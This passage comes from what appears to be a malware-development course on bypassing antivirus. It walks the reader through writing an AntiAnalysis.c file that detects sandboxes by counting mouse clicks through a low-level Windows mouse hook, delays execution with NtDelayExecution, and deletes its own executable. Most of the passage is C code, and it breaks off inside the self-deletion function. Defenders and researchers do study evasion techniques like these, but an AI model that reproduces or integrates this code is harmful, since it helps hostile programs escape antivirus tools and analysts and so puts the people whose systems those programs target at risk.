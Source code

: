 [![](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-416782441-c87f902c-af70-4657-ad39-93d2f977673b.png)](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-416782441-c87f902c-af70-4657-ad39-93d2f977673b.png)### **Anti-Analysis Features**

To add anti-analysis features create a new file called `AntiAnalysis.c`. This file will contain the following functionality:

* Self-deletion function from the *Anti-Debugging - Self-Deletion* module.
* Mouse clicks monitoring feature from the *Anti-Virtual Environments - Multiple Techniques* module
* A function to delay execution using `NtDelayExecution` from the *Anti-Virtual Environments - Multiple Delay Execution Techniques* module

**AntiAnalysis.c**


```
#include <Windows.h>#include <stdio.h>#include "Structs.h"#include "Common.h"// Global hook handle variable
HHOOK g_hMouseHook = NULL;
// global mouse clicks counter
DWORD g_dwMouseClicks = NULL;



// The callback function that will be executed whenever the user clicked a mouse button
LRESULT CALLBACK HookEvent(int nCode, WPARAM wParam, LPARAM lParam) {

    if (wParam == WM_LBUTTONDOWN || wParam == WM_RBUTTONDOWN || wParam == WM_MBUTTONDOWN) {
        printf("[+] Mouse Click Recorded \n");
        g_dwMouseClicks++;
    }

    return CallNextHookEx(g_hMouseHook, nCode, wParam, lParam);
}



BOOL MouseClicksLogger() {

    MSG 	Msg = { 0 };

    // Installing hook
    g_hMouseHook = SetWindowsHookExW(
        WH_MOUSE_LL,
        (HOOKPROC)HookEvent,
        NULL,
        NULL
    );
    if (!g_hMouseHook) {
        printf("[!] SetWindowsHookExW Failed With Error : %d \n", GetLastError());
    }

    // Process unhandled events
    while (GetMessageW(&Msg, NULL, NULL, NULL)) {
        DefWindowProcW(Msg.hwnd, Msg.message, Msg.wParam, Msg.lParam);
    }

    return TRUE;
}


BOOL DeleteSelf() {


	WCHAR				    szPath[MAX_PATH * 2] 	    = { 0 };
	FILE_DISPOSITION_INFO	Delete 			    	    = { 0 };
```
